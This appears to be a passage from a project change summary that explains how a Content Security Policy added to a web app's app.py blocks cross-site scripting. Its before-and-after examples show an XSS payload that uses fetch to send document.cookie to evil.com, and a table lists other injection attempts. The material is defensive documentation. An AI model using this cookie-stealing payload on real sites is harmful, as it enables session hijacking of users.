 
## Security Impact

### Before CSP:

```html
<!-- Attacker injects this via XSS: -->
<script>
    fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>

Result: ❌ Cookie stolen, session hijacked
```

### After CSP (Enforcement Mode):

```html
<!-- Same attack attempt: -->
<script>
    fetch('https://evil.com/steal?cookie=' + document.cookie);
</script>

Result: ✅ Blocked by CSP
Browser console: "Refused to execute inline script because it violates CSP"
```

### Real-World Protection:

| Attack Scenario | Without CSP | With CSP |
|----------------|-------------|----------|
| Attacker injects `<script>alert(1)</script>` | ❌ Executes | ✅ Blocked |
| Attacker loads external malicious.js | ❌ Loads | ✅ Blocked |
| Attacker uses `eval('malicious code')` | ❌ Executes | ✅ Blocked |
| Attacker embeds page in iframe | ❌ Allowed | ✅ Blocked |
| Attacker exfiltrates data via AJAX | ❌ Succeeds | ✅ Blocked |

---

## Files Modified

### Production Files:

- ✅ `openefa-files/web/app.py` (Lines 289-337, 354-396)
  - Added CSP_POLICY configuration
  - Enabled report-only mode in Talisman
  - Added /csp-violation-report endpoint

### Logs Created:
